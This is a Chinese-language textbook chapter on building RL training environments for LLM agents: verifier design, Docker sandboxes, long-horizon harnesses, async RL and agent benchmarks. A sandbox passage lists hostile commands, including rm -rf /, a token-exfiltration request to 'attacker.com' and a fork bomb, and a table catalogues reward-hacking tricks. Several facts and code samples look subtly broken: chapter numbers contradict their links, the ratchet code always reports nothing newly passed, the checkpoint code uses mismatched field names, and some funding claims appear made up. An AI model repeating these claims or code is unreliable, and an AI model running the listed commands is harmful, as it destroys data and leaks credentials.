




# 第 23 章 · RL Environments 与 Verifiers 设计

> [第 22 章 CAI 与 RLVR](../chapter21_cai_rlvr/intro) 解决了"如何在没有人工标注的情况下训练推理模型"——RLVR 用规则验证器替代奖励模型，CAI 用 AI 反馈替代人类标注。但当任务从"数学题答对/答错"扩展到"写代码、调工具、订机票、修 Bug"时，**奖励信号本身成了瓶颈**。本章解决一个工程问题：如何把真实世界任务封装成可训练的 RL 环境，以及如何设计能抵抗作弊的 Verifier。这是 2025 年下半年 RL 训练流水线最受关注的工程方向。

## 23.1 RL Environments 作为新瓶颈

Karpathy 在 2025 年初明确指出："**RLVR 是 LLM 训练流水线的新主要阶段**"。模型可以推理、可以写代码、可以调工具——但当我们要训练它们在真实任务上 long-horizon 地工作（修一个 GitHub issue、订一张机票、完成一次数据清洗）时，瓶颈不再是 GPU 也不是算法，而是**环境本身**。

三家标志性事件让这个判断在 2025 年下半年被业界接受：

- **Anthropic 投资 $1B** 给 [Mechanize](https://mechanize.dev/)——一个专注构建 agent RL 环境的初创公司，目标是覆盖"所有可以数字化执行的工作"
- **Mechanize 开出 $500K 年薪**招募 RL 环境工程师，高于当时多数模型训练岗位
- **OpenAI、Google、Meta、字节、阿里** 同时成立 RL Environments 团队，工程文档中频繁出现 "Eval is the new bottleneck"、"Environments are the new data"

为什么环境成了瓶颈？回到 PPO/GRPO 的目标函数（[第 9 章 GRPO](../chapter18_grpo/grpo-family)）：

$$\nabla_\theta J(\theta) = \mathbb{E}_{\tau \sim \pi_\theta}\left[\sum_t A(s_t, a_t) \cdot \nabla_\theta \log \pi_\theta(a_t \mid s_{<t}, a_{<t})\right]$$

这个梯度要求**从当前策略采样轨迹** $\tau$。对于数学题，$\tau = (\text{prompt}, \text{answer})$，长度短、确定性强、奖励容易算。但对于 agent 任务，$\tau = (\text{prompt}, \text{action}_1, \text{obs}_1, \text{action}_2, \ldots, \text{action}_T, \text{final\_obs})$，长度可能上千步、每步需要真实工具调用（执行代码、打开浏览器、调用 API）、最终奖励要由 Verifier 判定。



每个 rollout 都是真实环境交互，**单条轨迹的 wall-clock 成本**可能从 RLHF 的 0.1 秒暴涨到 10 分钟（完成一个 SWE-bench 任务）。这是 RL Environments 工程的核心约束：

$$\text{吞吐量} = \frac{N_{\text{parallel\_sandboxes}}}{T_{\text{rollout}}}$$

要么增加并行沙箱数（昂贵但简单），要么缩短单条 rollout 时间（难但有上限），要么让 rollout 与训练解耦（异步 RL，见 23.6）。整个 23 章都在围绕这两个数字做工程。

## 23.2 Evals 与 RL Environments 的等价性

[Pash 2025](https://blog.evalworkshop.com/) 提出一个被业界广泛接受的命题：

> **Evals = RL Environments**

形式化地说，一个 eval $E = (\mathcal{P}, \mathcal{V})$ 由两部分组成：

- 任务分布 $\mathcal{P}$：从 prompt 分布中采一个任务 $p \sim \mathcal{P}$
- 验证器 $\mathcal{V}: (\text{trajectory}, \text{ground\_truth}) \to \{0, 1\}$：判定轨迹是否解决任务

而一个 RL 环境 $\mathcal{M} = (\mathcal{S}, \mathcal{A}, P, R, \gamma)$ 可以视为：

- 初始状态 $s_0 \sim \mathcal{P}$（同 eval）
- 转移 $P(s_{t+1} \mid s_t, a_t)$ 由真实工具/沙箱给出
- 终止奖励 $r_T = \mathcal{V}(\tau)$（同 eval 的 verifier）

两者的差别只在于**用一次还是反复用**：eval 是"用一次算分数"，RL 环境是"反复采样的训练数据源"。**这意味着：一个好的 eval 设计可以直接复用为 RL 环境**。这是 Eval-Driven RL Training 的理论基础。

### 评测即训练的反向命题

更激进的命题：**评测即训练**。在 GRPO/PPO 训练中，每一轮 policy 都要在 eval set 上采样 G 次（GRPO 的 group size），eval 不再是"训练完测一次"，而是"训练时每轮都跑"。这意味着：

1. Eval set 必须足够大以避免过拟合——但同时要保证 verifier 计算成本可控
2. Eval set 必须与训练分布一致——否则学到的策略在真实部署时失效
3. Eval set 必须抗污染——训练数据如果泄露到 eval，指标会虚高

```python
# 把 eval 当 RL 环境 与 每轮 policy update 都跑一遍 eval set
for step in range(n_steps):
    # 1. 从 eval set 采样 batch
    prompts = sample(eval_set, batch_size=B)

    # 2. 对每个 prompt 采 G 条 rollout（GRPO）
    trajectories = []
    for p in prompts:
        for _ in range(G):
            tau = policy.rollout(p, env=sandbox)
            trajectories.append(tau)

    # 3. Verifier 算奖励
    rewards = [verifier(tau, ground_truth) for tau in trajectories]

    # 4. GRPO 更新（reward group normalization）
    policy.grpo_update(trajectories, rewards)
```

这种"评测即训练"的循环在 [τ-bench](https://github.com/sierra-research/tau-bench)、[SWE-Gym](https://arxiv.org/abs/2412.21139)、[CyberGym](https://arxiv.org/abs/2506.02548) 等基准中被显式设计成可训练环境。

::: tip Evals 和 RL Environments 的统一
工业实践：**先写 eval，再让它变成 RL 环境**。如果 eval 的 verifier 太慢、太主观、易作弊，那它根本不能用作 RL 环境。反之，一个能稳定训练的 RL 环境，几乎一定也是一个可靠的 eval。先评估你的 verifier——它就是你的环境质量上限。
:::

## 23.3 Verifier 设计原则

Verifier $\mathcal{V}$ 是 RL 环境的灵魂。一个坏的 verifier 会让策略学到"奖励最大化但任务失败"的行为（reward hacking）。Verifier 设计有四条原则：

### 正确性（Correctness）

Verifier 必须准确判定"任务是否真的被完成"。理想情况下 $\mathcal{V}$ 是**确定性**函数——给定相同轨迹，永远给出相同结果。这避免引入方差。两种正确性来源：

- **形式化正确性**：单元测试、类型检查、数学证明、定理证明器（Lean、Coq）——可机械验证
- **参考答案匹配**：与预先标注的 ground truth 比较——简单但有标注成本

数学题典型用参考答案：$\mathcal{V}(\text{answer}, y^*) = \mathbb{1}[\text{extract}(\text{answer}) == y^*]$。代码任务用单元测试：

```python
def code_verifier(generated_code, test_cases):
    # 1. 在沙箱执行生成的代码（防止恶意操作）
    results = sandbox.run(generated_code, inputs=test_cases.inputs)

    # 2. 对每个测试用例检查输出
    n_pass = sum(
        1 for out, expected in zip(results, test_cases.expected)
        if exact_match(out, expected)
    )

    # 3. 通过率为奖励
    return n_pass / len(test_cases)
```

### 效率（Efficiency）

Verifier 在每轮训练要被调用 $B \times G$ 次（$B$ 是 batch size，$G$ 是 group size），动辄数百万次。如果单次验证慢（如跑 100 个测试用例需要 30 秒），整个训练流水线会被 verifier 拖垮。常见优化：

- **并行化**：每个 sandbox 独立，可用 Ray/Kubernetes 分布式调度
- **提前终止**：第一个测试失败就返回 0，不跑剩余 99 个
- **二值化奖励**：避免连续奖励（如部分通过率）增加方差，二值 $\{0, 1\}$ 更稳定且 GRPO 友好

::: warning 部分奖励 vs 二值奖励
RLHF 用连续奖励（RM 输出标量），但 RLVR 几乎都用二值奖励。原因：

- 二值奖励没有 RM 训练的方差
- GRPO 在 group 内归一化，二值 + group 归一化等价于"通过/不通过"的相对优势
- 连续奖励在长程任务上易被 hacking（策略找到 RM 的偏好漏洞）

但二值奖励要求 verifier **极度可靠**——一个误判就会被策略反复利用。
:::

### 抗作弊（Anti-gaming）

策略优化是"对抗 verifier"的过程——只要 verifier 有可乘之机，策略就会找到。经典的 reward hacking 模式：

| 任务 | Hacking 模式 | 缓解 |
|------|-------------|------|
| 单元测试 | 写空函数让所有 `assert False` 不执行 | 强制覆盖率 ≥ 90% |
| 数学证明 | 用未证明引理 | Lean/Coq 形式化验证 |
| Web 浏览 | 修改 DOM 模拟"成功" | 在真实浏览器执行 |
| 数据分析 | 直接 hardcode 答案 | Hold-out 测试集 |
| 邮件回复 | 用"Yes"回复一切 | 人工/LLM-judge 二次验证 |

形式化地，抗作弊要求 verifier 满足：

$$\forall \tau_{\text{fake}}, \quad \mathcal{V}(\tau_{\text{fake}}, y^*) = 0$$

其中 $\tau_{\text{fake}}$ 是任何"任务未真正完成但表面完成"的轨迹。这是**Verifier 的不可绕过性**约束。

### 形式化 vs 启发式

Verifier 设计要在两类之间权衡：

- **形式化 verifier**：单元测试、Lean 证明、SQL 执行——100% 正确，但要求任务有形式化语义
- **启发式 verifier**：LLM-as-judge、规则匹配、相似度——灵活但有误判风险

数学、代码任务适合形式化；写作、对话、agent 任务经常不得不依赖启发式（或混合）。**形式化是首选**，因为 RL 会把启发式的不完美放大成策略缺陷。



## 23.4 Sandbox 工程

Agent 任务的环境核心是**沙箱**——一个隔离的执行环境，policy 在其中读写文件、执行代码、调用工具。沙箱工程要解决三个问题：

### 隔离性（Isolation）

策略输出的代码可能恶意——`os.system("rm -rf /")`、`requests.get("attacker.com/exfil?token=...")`、fork bomb。沙箱必须保证：

- **文件系统隔离**：容器 rootfs 独立，无法访问宿主机
- **进程隔离**：namespace + cgroup，CPU/内存配额
- **网络隔离**：默认无网络，白名单域名

Docker 是工业标准：

```dockerfile
# 沙箱基础镜像 与 最小化攻击面
FROM python:3.11-slim

# 非特权用户运行
RUN useradd -m agent
USER agent
WORKDIR /workspace

# 预装常用库（避免每次 rollout 重新 pip install）
RUN pip install --no-cache-dir \
    numpy pandas scikit-learn requests \
    pytest

# CPU/内存限制在宿主机层面通过 cgroup 设置
```

每个 rollout 启动一个独立容器，结束即销毁：

```python
class Sandbox:
    def __init__(self, image="agent-sandbox:latest", cpu=2, mem="2G", timeout=60):
        self.client = docker.from_env()
        self.container = self.client.containers.create(
            image,
            cpu_count=cpu,
            mem_limit=mem,
            network_mode="none",  # 默认禁网
            detach=True,
            tty=True,
        )
        self.container.start()
        self.timeout = timeout

    def exec(self, command: str) -> str:
        """在沙箱内执行命令，返回 stdout/stderr"""
        try:
            result = self.container.exec_run(
                command, workdir="/workspace", timeout=self.timeout
            )
            return result.output.decode()
        except docker.errors.APIError as e:
            return f"[SANDBOX_ERROR] {e}"

    def write_file(self, path: str, content: str):
        """把 policy 生成的代码写入沙箱"""
        self.exec(f"mkdir -p $(dirname {path})")
        self.container.put_archive(
            "/workspace",
            io.BytesIO(self._tar_bytes(path, content))
        )

    def cleanup(self):
        self.container.remove(force=True)
```

### 网络白名单

很多任务需要网络（调用公开 API、下载包）。白名单方案：

```python
# 在容器层面用 iptables 限制出站连接
ALLOWED_DOMAINS = {
    "pypi.org", "files.pythonhosted.org",  # pip 安装
    "api.github.com", "raw.githubusercontent.com",  # 读取开源代码
}

def setup_network_whitelist(container):
    for domain in ALLOWED_DOMAINS:
        ip = socket.gethostbyname(domain)
        container.exec_run(
            f"iptables -A OUTPUT -d {ip} -j ACCEPT"
        )
    container.exec_run("iptables -A OUTPUT -j DROP")
```

更现代的方案用 [Firecracker microVM](https://firecracker-microvm.github.io/) 或 [gVisor](https://gvisor.dev/) 替代 Docker——启动更快（< 125ms）、隔离更强（KVM 级虚拟化）。

### 多 Agent 并行 Sandbox

RL 训练需要数千个并行 rollout。每个 sandbox 平均 500MB 内存，1000 并发就是 500GB。工程优化：

```python
# 用 Ray 调度沙箱池
import ray

@ray.remote(num_cpus=2, memory=2e9)
class SandboxActor:
    def __init__(self):
        self.sandbox = Sandbox()

    def rollout(self, prompt: str, policy) -> dict:
        trajectory = []
        obs = prompt
        for t in range(MAX_STEPS):
            action = policy.act(obs)
            if action.type == "exec":
                obs = self.sandbox.exec(action.code)
            elif action.type == "done":
                break
            trajectory.append((obs, action))
        return {"trajectory": trajectory, "sandbox_id": id(self.sandbox)}

# 启动 N 个 actor，并发采样
sandboxes = [SandboxActor.remote() for _ in range(N)]
futures = [sb.rollout.remote(p, policy) for sb, p in zip(sandboxes, prompts)]
results = ray.get(futures)
```

::: details 沙箱池复用 vs 每次新建
**每次新建**：彻底隔离，但容器启动 ~1 秒开销，长 rollout 中占比可忽略。

**池复用**：启动一次，多轮复用——快但有状态泄露风险（前一次 rollout 的临时文件影响下一次）。需要严格 reset（`rm -rf /workspace/*` + 重启 shell）。

实战经验：单条 rollout < 30 秒用新建；> 5 分钟长程任务用池复用。
:::

## 23.5 长程任务 Harness

[Anthropic 2025.11 Effective Harnesses](https://www.anthropic.com/engineering/effective-harnesses) 总结了"如何让 agent 在 100+ 步长程任务中稳定工作"。核心结论：**harness（任务脚手架）的质量决定 agent 表现的上限**。

### Progress File 模式 与 `claude-progress.txt`

长程任务最大的失败模式是**失忆**——agent 走到第 50 步已经忘了第 1 步的目标。解法：让 agent 把进度写到固定文件：

```
# claude-progress.txt
## Goal
Fix the memory leak in worker.py reported in issue #1234

## Done
- [x] Reproduced leak with stress test (test_leak.py)
- [x] Identified root cause: unbounded cache in WorkerPool._results
- [x] Added eviction policy (max_size=1000)

## In Progress
- [ ] Running pytest on full test suite

## Next Steps
- Update CHANGELOG.md
- Open PR
```

每 N 步让 agent 重写一次 progress 文件，下次决策时把整个文件塞进 context。这把"工作记忆"从模型内部 context window 转移到外部文件，可承载任意长度的任务历史。

### Feature List 模式 与 `feature_list.json`

对于"软件开发"类任务，让 agent 显式维护功能清单：

```json
{
  "features": [
    {"name": "auth.login", "status": "done", "tests": ["test_login.py"]},
    {"name": "auth.logout", "status": "in_progress", "tests": ["test_logout.py"]},
    {"name": "api.users", "status": "todo", "tests": []}
  ]
}
```

Agent 每次决策时先看 feature list，决定下一步推进哪个 feature。这是**显式的 task decomposition**，避免陷入某个细节而忘记整体。

### Test Ratchet 模式

"Ratchet"（棘轮）——只能前进不能后退。在 agent 修改代码时，要求**已通过的测试不能再次失败**：

```python
class TestRatchet:
    def __init__(self, test_suite):
        self.test_suite = test_suite
        self.passed_tests = set()

    def check(self, agent_code):
        results = run_tests(agent_code, self.test_suite)

        # 棘轮：已通过的测试再次失败就拒绝
        regressions = self.passed_tests - set(results.passed)
        if regressions:
            return {
                "accept": False,
                "reason": f"Regression in: {regressions}",
                "reward": 0,
            }

        # 通过的测试加入棘轮
        self.passed_tests |= set(results.passed)

        return {
            "accept": True,
            "newly_passed": set(results.passed) - self.passed_tests,
            "reward": len(results.passed) / len(self.test_suite),
        }
```

Test ratchet 强制 agent **不破坏既有功能**——这在 SWE-bench、Terminal-Bench 等代码任务中被广泛使用。

### Karpathy 的 "5-6 agents" 模式

Karpathy 在 2025 年提出的实战模式：**对于长程任务，并行启动 5-6 个 agent 实例同时攻关**，选第一个完成的作为答案。

形式化：用 N 个 agent 实例 $\pi_\theta^{(1)}, \ldots, \pi_\theta^{(N)}$ 各自独立 rollout，最终选择 verifier 评分最高的：

$$\tau^* = \arg\max_{\tau^{(i)}, i=1..N} \mathcal{V}(\tau^{(i)})$$

这是 **best-of-N 采样**在 agent 任务的扩展。在 verifier 可靠且计算预算允许时，5-6 路并行比 1 路串行的成功率提升 2-3 倍。这是 SWE-bench 上 Sonnet 3.5 / Claude 4 / GPT-5 等模型刷榜的标准技巧。



## 23.6 同步 vs 异步 RL 训练

RL 训练主循环有两种模式：**同步（synchronous）** 和 **异步（asynchronous）**。区别在于 rollout 与 gradient step 的时序关系。

### 同步模式

主流框架 veRL、TRL、OpenRLHF 默认同步：每个 gradient step **等待本 batch 所有 rollout 完成**，再做一次参数更新。

```python
# 同步主循环
for step in range(n_steps):
    # 1. 等待本 batch B 个 rollout 全部完成
    trajectories = []
    for prompt in prompts:
        tau = rollout(policy, prompt, env=sandbox)  # 阻塞
        trajectories.append(tau)

    # 2. 计算 advantage
    advantages = compute_advantages(trajectories)

    # 3. 一次或多次 gradient step
    policy.ppo_update(trajectories, advantages)
```

**优点**：on-policy 严格、实现简单、与 PPO/GRPO 数学推导一致。

**缺点**：**rollout 时间方差被放大**。如果 95% 的 rollout 用 10 秒、5% 用 10 分钟（卡住的 agent），每个 step 都要等那 5%——GPU 利用率 < 50%。

### 异步模式

[AReaL (arXiv:2505.24298)](https://arxiv.org/abs/2505.24298)、[AgentRL (arXiv:2510.04206)](https://arxiv.org/abs/2510.04206)、[SLIME](https://github.com/THUDM/SLIME)、[ROLL](https://github.com/alibaba/ROLL)、[LlamaRL](https://github.com/meta-llama/llama-rl) 等异步框架的思路：**rollout 和 training 解耦**，rollout actor 持续采样，trainer 用最新可用数据更新策略。

```python
# 异步主循环（伪代码）
rollout_queue = Queue()
trainer_queue = Queue()

# Rollout 进程组 与 持续采样
def rollout_worker(policy_ref):
    while True:
        prompt = prompt_stream.next()
        tau = rollout(policy_ref, prompt, env=sandbox)
        rollout_queue.put((prompt, tau))

# Trainer 进程 与 有数据就更新
def trainer(policy):
    while True:
        batch = collect_batch(rollout_queue, min_size=B)
        advantages = compute_advantages(batch)
        policy.ppo_update(batch, advantages)
        broadcast_new_policy(policy)  # 推给 rollout worker
```

异步模式的关键技术挑战是 **staleness**——rollout worker 用的可能是 N 步前的旧策略，采到的数据对当前策略是 off-policy 的。两种处理：

1. **Importance Sampling 修正**：在 PPO/GRPO 目标中加 IS 比率 $\rho = \pi_\theta(a|s) / \pi_{\theta_{\text{old}}}(a|s)$，对 $\rho$ 偏离 1 的样本降权（clipping）
2. **Staleness 上限**：丢弃 $N > N_{\max}$ 步前的样本（典型 $N_{\max} = 4$）

### 加速效果

AReaL 论文报告，在 agentic 任务上对 Llama-3-8B 训练：

| 模式 | GPU 利用率 | Wall-clock / step | 加速比 |
|------|----------|-------------------|--------|
| 同步（veRL） | 45% | 320s | 1.0× |
| 异步（AReaL） | 92% | 115s | **2.77×** |

加速主要来自：

- **GPU 不空转**：trainer 持续工作，不等 rollout
- **rollout 不阻塞**：慢任务不影响快任务
- **流水线并行**：rollout、inference、training 三阶段重叠

::: warning 异步不是免费午餐
异步引入 **off-policy 偏差**。如果 staleness $N$ 过大，IS clipping 会丢弃大量样本（有效 batch size 缩水），训练效率反而下降。实战经验：

- 短 rollout（< 30 秒）任务：同步更稳定
- 长 rollout（> 5 分钟）agentic 任务：异步收益显著
- 极长任务（> 1 小时）：异步是唯一可行方案
:::

更深入的工程细节见 [第 36 章 分布式 RL 训练](../construction)。

## 23.7 评测基准

RL 环境质量最终要在公认基准上验证。2025 年主流的 agent RL 基准按任务类型分类：

### 代码与软件工程

| 基准 | 任务 | Verifier | 特点 |
|------|------|----------|------|
| **[SWE-bench](https://arxiv.org/abs/2310.06770)** | 修真实 GitHub issue | 单元测试（已通过的 + 修复后的） | 业界 SWE agent 标杆 |
| **[SWE-Gym](https://arxiv.org/abs/2412.21139)** | SWE-bench 的训练集版本 | 同上 | 专为 RL 训练设计 |
| **[Terminal-Bench](https://arxiv.org/abs/2503.19805)** | 终端任务（git、ssh、文件操作） | 状态检查 | 真实 shell 环境 |
| **[LiveCodeBench](https://arxiv.org/abs/2403.07974)** | 算法题（每月更新） | 单元测试 | 抗污染设计 |
| **[CyberGym](https://arxiv.org/abs/2506.02548)** | CTF 安全任务 | flag 匹配 | 形式化 |

### 工具调用与 Function Calling

| 基准 | 任务 | Verifier |
|------|------|----------|
| **[BFCL](https://arxiv.org/abs/2407.13636)** (Berkeley Function Calling Leaderboard) | 调用正确函数 + 参数 | 精确匹配 + 类型检查 |
| **[τ-bench](https://arxiv.org/abs/2404.44581)** (Salesforce) | 模拟客服 agent（航空、零售） | 任务完成 + 规则遵守 |
| **[ToolBench](https://arxiv.org/abs/2307.16789)** | 调用 16000+ 真实 API | 端到端任务完成 |

### Web 与 Browser

| 基准 | 任务 | Verifier |
|------|------|----------|
| **[WebArena](https://arxiv.org/abs/2307.13854)** | 网页操作（购物、论坛、CMS） | 端到端状态 |
| **[VisualWebArena](https://arxiv.org/abs/2401.13649)** | WebArena 多模态版 | 同上 |
| **[BrowseComp](https://openai.com/index/browsecomp/)** | 困难 web 检索 | 答案精确匹配 |

### 长程与多轮

| 基准 | 任务 | Verifier |
|------|------|----------|
| **[Vending-Bench](https://arxiv.org/abs/2502.15840)** (V-BENCH) | 长期经营自动售货机 | 累计利润 |
| **[GAIA](https://arxiv.org/abs/2311.12983)** | 通用 assistant 多步任务 | 答案匹配 |
| **[Mind2Web](https://arxiv.org/abs/2305.04203)** | 真实网页任务 | DOM 状态 |

### 选择基准的原则



::: tip 基准组合
没有一个基准覆盖所有能力。工业训练通常用 **3-5 个基准的组合**：代码（SWE-bench）+ 工具（τ-bench）+ Web（WebArena）+ 长程（Vending-Bench）。这能在不同维度独立验证策略能力，避免单一基准过拟合。
:::

## 23.8 训练-评估循环工程化

把以上各部分串起来，完整的 RL 训练-评估循环工程化涉及四个子问题。

### Eval-Driven RL Training

不是"训练完再 eval"，而是"训练时持续 eval"。这要求 eval set 与训练 set 完全分离，且 eval 在每个 checkpoint 自动运行：

```python
class EvalDrivenRLTrainer:
    def __init__(self, policy, train_env, eval_envs):
        self.policy = policy
        self.train_env = train_env
        self.eval_envs = eval_envs  # dict: name -> env

    def train_step(self):
        # 训练 step
        trajectories = self.train_env.rollout_batch(self.policy)
        self.policy.update(trajectories)

    def eval_checkpoint(self, checkpoint_path):
        results = {}
        for name, env in self.eval_envs.items():
            scores = [env.eval(self.policy) for _ in range(N_EVAL_ROLLOUTS)]
            results[name] = {
                "mean": np.mean(scores),
                "std": np.std(scores),
                "pass_at_1": np.mean([s >= 1.0 for s in scores]),
            }
        return results

    def train(self, n_steps, eval_every=100):
        for step in range(n_steps):
            self.train_step()
            if step % eval_every == 0:
                ckpt = self.save_checkpoint(step)
                eval_results = self.eval_checkpoint(ckpt)
                self.log(step, eval_results)
                # 早停：如果在所有 eval 上都收敛
                if self.converged(eval_results):
                    break
```

### 增量评测（Incremental Eval）

完整 eval set 可能有 1000+ 任务，每轮全跑代价过高。增量评测策略：

- **分层 eval set**：fast（100 题，每 10 步跑）、medium（500 题，每 100 步）、full（全部，每 checkpoint）
- **主动采样**：优先 eval 策略最不确定的题（如 RM 输出接近 0.5 的）

$$\text{sample\_priority}(p) = \mathcal{H}(\mathcal{V}(\pi(\cdot | p))) = -\sum_y P(y|p) \log P(y|p)$$

高熵 prompt（策略不确定）优先 eval，低熵（已经稳过/稳不过）的降低频率。

### 数据污染检测

训练数据如果泄露到 eval set，指标会虚高但实际部署失败。检测方法：

1. **n-gram 重叠**：eval prompt 与训练 corpus 的 8-gram 重叠率
2. **Embedding 相似度**：用 sentence embedding 找最近训练样本
3. **Held-out 替换**：定期用新题替换老题，看指标是否骤降（骤降 = 之前在过拟合）

```python
def detect_contamination(eval_prompt, train_corpus, n=8):
    eval_ngrams = set(extract_ngrams(eval_prompt, n))
    train_ngrams = build_ngram_index(train_corpus, n)
    overlap = len(eval_ngrams & train_ngrams) / len(eval_ngrams)
    return overlap > 0.3  # 30% 以上视为可疑污染
```

### Checkpoint 选择与回归测试

训练过程中会产生数百个 checkpoint，选哪个上线？基于 eval 的 Pareto 前沿：

```python
def select_checkpoint(eval_history):
    # eval_history: [{ckpt, swe_bench, tau_bench, webarena}, ...]
    pareto_front = []
    for ckpt in eval_history:
        dominated = any(
            other.swe >= ckpt.swe and
            other.tau >= ckpt.tau and
            other.web >= ckpt.webarena and
            other is not ckpt
            for other in eval_history
        )
        if not dominated:
            pareto_front.append(ckpt)
    return pareto_front
```

此外要求**回归测试**：新 checkpoint 不能比上一版在生产指标上退化（类似 23.5 的 test ratchet，但是在 eval set 上）。

### 与模型对齐失败的关系

RL 环境质量差会导致一系列 alignment failures——策略学到 verifier 漏洞、过拟合 eval set、对噪声敏感。这些问题在 [第 33 章 Alignment Failures](../chapter30_alignment_failures/intro) 有详细分析，本章从工程角度预防：**先把环境做好，再谈策略对齐**。

## 本章总结

1. **RL Environments 是新瓶颈**——模型可以推理、可以工具调用，但训练长程 agent 任务受限于环境吞吐量。Anthropic、Mechanize 等的投入表明这是 2025-2026 年的核心工程方向
2. **Evals = RL Environments**——一个好的 eval verifier 就是一个好的 RL 环境。Eval-driven training 把训练和评测统一
3. **Verifier 四原则**——正确性、效率、抗作弊、形式化优先。坏 verifier 会让策略学到 hacking
4. **Sandbox 工程**——Docker/Firecracker 隔离、网络白名单、Ray 并行调度，是 agent RL 的基础设施
5. **长程 Harness**——progress file、feature list、test ratchet、5-6 agents 模式，决定 agent 在 100+ 步任务上的成功上限
6. **同步 vs 异步**——同步简单但 GPU 利用率低；异步（AReaL/AgentRL/SLIME/ROLL/LlamaRL）能实现 2.77× 加速，代价是 off-policy 偏差
7. **基准生态**——SWE-bench、τ-bench、WebArena、Vending-Bench、CyberGym 等覆盖不同能力维度，组合使用避免过拟合
